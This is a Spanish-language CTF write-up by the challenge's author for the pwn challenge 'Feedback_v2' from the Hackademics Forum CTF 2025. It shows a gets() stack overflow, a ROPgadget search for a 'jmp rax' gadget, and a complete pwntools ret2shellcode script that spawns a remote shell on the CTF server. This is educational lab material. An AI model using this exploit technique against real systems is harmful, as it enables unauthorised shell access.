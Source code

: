 ```yaml
---
layout: post
title: Feedback_v2 HFCTF 2025
comments: true
categories: [Pwn, Writeups, HFCTF2025]
---
```


Aquí traigo el tercer reto que implementé para la categoría de Pwn para el [Hackademics Forum CTF](hackademics-forum.com). Este es el ejercicio que menos solves tuvo en Pwn aunque tampoco es realmente difícil.

# Overview

En este caso se trata de un *ret2shellcode*, en el que saltaremos a un código que ejecuta una shell en el stack.

<br>
![Image]({{ site.baseurl }}/images/posts/HFCTF.png){:width="150px"}
<br>

# Reconocimiento

Aunque no es necesario, si descompilamos veremos las siguientes funciones:

```c
void comment() {
    char buffer[200];
    printf("Deja una reseña sobre nuestro CTF: "); flush_buffers();
    gets(buffer);
}

int main() {
    banner();
    comment();
    return 0;
}
```

Vemos que ya no hay función flag. Sin embargo, disponemos de una llamada a *gets* en comment, con longitud suficiente para albergar un shellcode en el stack. Con lo que podemos desbordar el rsp e insertar saltar a dicho código.

Deberemos primero encontrar un gadget que nos permita saltar, podemos buscarlo con *ROPGadget*:

```bash
ROPgadget --binary feedback_v2 | grep jmp

[...]
0x00000000004010cc : jmp rax
[...]
```

Ese `jmp rax` debería servirnos. Además debemos buscar el offset hasta rsp de igual forma que en la [versión 1 del reto]({% post_url 2025-04-6-Feedback-HFCTF %}).

# Explotación

Para resolverlo debemos explotar el servidor, para ello utilizaremos este script:

```python
#!/bin/python3

from pwn import *

binary = '../gen/feedback_v2'
#elf = ELF(binary)

# p = remote('direccion.ip', puerto)
p = remote("ctf.hackademics-forum.com", 51425)

#p=process(binary)

# p = gdb.debug(binary, '''
#     break *comment+61
#     continue
# ''')

#0x00000000004010cc: jmp rax;
jmp_addr = 0x4010cc

#0x0000000000401016 : ret
ret = 0x401016

shellcode = asm(shellcraft.amd64.linux.sh(),arch='amd64')

offset = 216
padding = b'\x90' * (offset-len(shellcode))

payload = shellcode + padding + p64(jmp_addr)

#payload = b'\x90'*(offset) + p64(0x401690) + p64(jmp_addr)

print(payload)

log.info("Enviando exploit...")

p.sendline(payload)

p.interactive()
```